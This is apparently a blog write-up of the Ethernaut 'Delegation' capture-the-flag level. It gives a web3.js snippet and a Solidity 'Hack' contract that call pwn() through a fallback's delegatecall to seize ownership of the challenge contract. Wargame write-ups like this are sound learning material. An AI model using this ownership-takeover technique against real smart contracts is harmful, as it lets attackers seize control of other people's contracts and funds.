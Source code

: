 +++
title = 'Ethernaut Level 6 - Delegation'
date = 2024-04-08 04:00:00
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Trigger a fallback to win'
tags = [ 'writeups' , 'blockchain' ]
+++
1. With sendTransaction, we are able to trigger the fallback
2. Using abi.encodeFunctionSignature, we have the correct structure for delegateCall
```js
signature = web3.eth.abi.encodeFunctionSignature("pwn()");
await sendTransaction({from: player, to:contract.address, data: signature}); 
```

For some reason if we write a contract that does this, it sets `contract.owner` to the address of the attacking contract and not the player:

```solidity
// SPDX-License-Identifier: GPL-3.0

pragma solidity ^0.8.2;

interface Delegation { }

contract Hack {
    Delegation level6 = Delegation(0x8B659A31E6b5C62C6542FB5175b8cEa6D42A620e);

    function win() public {
        (bool success, ) = address(level6).call(abi.encodeWithSignature("pwn()"));
    }
}
```